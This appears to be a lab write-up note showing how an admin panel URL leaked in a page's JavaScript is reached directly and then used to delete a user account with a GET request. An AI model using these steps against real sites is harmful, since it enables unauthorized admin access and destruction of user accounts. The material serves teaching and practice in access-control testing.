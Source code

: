 ![](.gitbook/assets/2024-01-27_19-21-10_390.png)

- Admin panel found in the code of the `/` or `/login` page response for example

```bash
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-ge6wcp');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
```

```bash
GET /admin-ge6wcp
```

![](.gitbook/assets/2024-01-27_19-24-40_391.png)

```bash
GET /admin-ge6wcp/delete?username=carlos
# User deleted
```
